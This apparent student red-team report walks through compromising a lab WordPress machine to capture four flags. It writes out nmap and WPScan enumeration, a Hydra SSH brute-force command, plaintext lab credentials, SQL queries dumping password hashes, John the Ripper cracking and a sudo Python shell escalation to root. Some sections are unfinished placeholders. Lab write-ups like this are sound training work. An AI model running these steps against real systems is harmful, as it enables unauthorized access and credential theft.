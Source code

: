 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -A 192.168.1.0/24
  - ![alt text] https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/025ff3ea5bce6ebc05f03ac40339df8e13f8ed29/Images/Offense%20Images/nmapscanfortarget1.png
```

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/TCP Open SSH
  - Port 80/TCP Open HTTP
  - Port 111/TCP Open rcpbind
  - Port 139/TCP Open netbios-ssn
  - Port 445/TCP Open netbios-ssn

The following vulnerabilities were identified on each target:
- Target 1
  - Improper configured SSH
  - WordPress Enumation
  - Weak Password Implementation
  - No file security permission implemented
  - Use of weak password salted hashes
  - Python root escalation privileges

_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

### Exploitation
_TODO: Fill out the details below. Include screenshots where possible._

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33ellb80be759c4e844862482d
    - **Exploits Used**
      - WPScan to enumerate users of the Target 1 WordPress site
        - wpscan --url http://192.168.1.110 --enumerate u
        - ![alt text] https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8655bc671393f7d27d9d25ac768909c31c3b8594/Images/Offense%20Images/wpscanusers.png
    - Targeting User Michael
      - Executed Hydra Brute Force Attack
        - The following command was performed:
        - hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh
        - Password: Michael
        - ![alt text] https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8a9ac76506c514988a6b20a129696a48ae0fc69e/Images/Offense%20Images/hydrabruteforcemichael.png
    - Capturing Flag 1: After SSH Brute Force Attack as Michael I traversed through directories and files.
      - Found Flag1 in  var/www/html folder at root in service.html in a HTML comment below the footer.
      - Commands:
        - ssh michael@192.168.1.110
        - pw: michael
  - ![alt text] https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8a9ac76506c514988a6b20a129696a48ae0fc69e/Images/Offense%20Images/sshmichaelpassword.png
        - cd ../
        - cd /var/www/html
        - ls -l
        - nano service.html
  - ![alt text] https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8a9ac76506c514988a6b20a129696a48ae0fc69e/Images/Offense%20Images/flag1.png
  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Same exploit covered in flag1 to gain access
      - Commands:
        - ssh michael@192.168.1.110
        - pw: michael
        - cd ../
        - cd /var/www
        - find / i-name flag*
        - cat flag2.txt
  - ![alt text] https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8a9ac76506c514988a6b20a129696a48ae0fc69e/Images/Offense%20Images/flag2hash.png
  - ![alt text] https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8a9ac76506c514988a6b20a129696a48ae0fc69e/Images/Offense%20Images/flag2.png
  - `flag3` : afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Previous exploit covered in flag1 and flag2
      - Captured flag3 Accessing MySQL database
        - Once having found wp-config.php and gaining access to the database credentials as Michael, MySQL was used to explore the database
        - the wp-config.php displayed DB_Password in plaintext
        - Insert Picture
        - flag3 was found in wp_posts table in the wordpress database.
        - Commands:
          - Connected to mysql: -u root -p R@v3nSecurity
          - show databases;
          - use wordpress;
          - show tables;
          - select * from wp_posts;
   - ![alt text] https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8a9ac76506c514988a6b20a129696a48ae0fc69e/Images/Offense%20Images/mysqlconnect.png
   - ![alt text] https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8a9ac76506c514988a6b20a129696a48ae0fc69e/Images/Offense%20Images/sqlshowdatabases.png
   - ![alt text] 
  - `flag4` : 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Use of weak password salted hashes and Python root escalation privileges
      - Captured flag4 by retrieving user credentials from database, executed john the ripper to crack password hash and use Python Escalation Privileges to gain root access
        - Previously gained access to the database credentials as Michael from the sp-config.phpfile, cracking password hashes gathered from MySQL was the next step.
        - These user credentials are stored in the wp_users table of the wordpress database.
        - The usernames and password hashes were copied/saved to the Kali machine in a file called wp_hashes.txt.
        - Commands:
          - Connected to mysql: -u root -p R@v3nSecurity
          - SELECT ID, user_login, user_pass FROM wp_users;
    - Insert picture
        - When I exported the hashes, I saved them individually as stevenhash.txt and michaelhash.txt and ran them against John the Ripper to crack the hashes.
          - Command:
            - john stevenhash.txt
            - Insert Picture
            - john michaelhash.txt; the execution of performing the john the ripper kept on going; but we already had the password from the previous activity.
          - Once Steven’s password hash was cracked, the next thing to do was SSH as Steven. Then as Steven checking for privilege and escalating to root with Python
          - Command:
            - ssh steven@192.168.1.110
            - pw:pink84
            - sudo -l
            - sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
            - cd /root
            - ls
            - cat flag4.txt
    - Insert Picture

